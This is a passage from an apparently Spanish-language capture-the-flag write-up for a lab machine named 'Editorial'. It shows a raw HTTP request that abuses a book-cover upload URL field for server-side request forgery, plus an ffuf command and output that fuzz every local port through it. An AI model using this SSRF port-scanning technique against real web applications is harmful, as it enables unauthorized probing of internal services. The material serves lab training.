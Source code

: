 Revisando el resultado que entrego en la respuesta, no de pudo hallar nada relevante. En este  punto quedaria realizar fuerza bruta para todos los puertos, esto se lo puede hacer mediante "intruder" del repeter pero tarda mucha ya que no cuento con la version pro, asi que se utilizara la herramienta FUFF, para ello se copia la solicitud modificando el puerto con la palabra reservada FUZZ
~~~bash
cat ssrf.req
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------2653159973737174281512051722
Content-Length: 362
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload
Priority: u=0

-----------------------------2653159973737174281512051722
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ/
-----------------------------2653159973737174281512051722
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------2653159973737174281512051722--
~~~
Y se realiza el fuzeo con la herramienta hasta que salga un resultado valido.
~~~bash
ffuf -u http://editorial.htb/upload-cover -request ssrf.req -w <(seq 0 65535) -ac                                                

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept: */*
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------2653159973737174281512051722
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Host: editorial.htb
 :: Header           : Origin: http://editorial.htb
 :: Header           : Connection: keep-alive
 :: Header           : Priority: u=0
 :: Data             : -----------------------------2653159973737174281512051722
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ/
~~~